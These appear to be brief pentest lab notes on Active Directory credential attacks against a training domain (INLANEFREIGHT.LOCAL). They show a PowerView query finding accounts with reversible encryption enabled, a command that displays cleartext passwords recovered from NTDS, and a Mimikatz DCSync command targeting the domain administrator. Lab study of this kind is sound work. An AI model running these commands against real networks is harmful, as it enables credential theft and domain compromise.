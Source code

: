 - Checking for Reversible Encryption option using Get-DomainUser
```PowerShell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | Select samaccountname, useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

- Display decrypted Passwords
```bash
# PWNBOX
cat inalnefreight_hashes.ntds.cleartext
```

- Perform the attack with Mimikatz
```PwoerShell
./mimikatz.exe
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```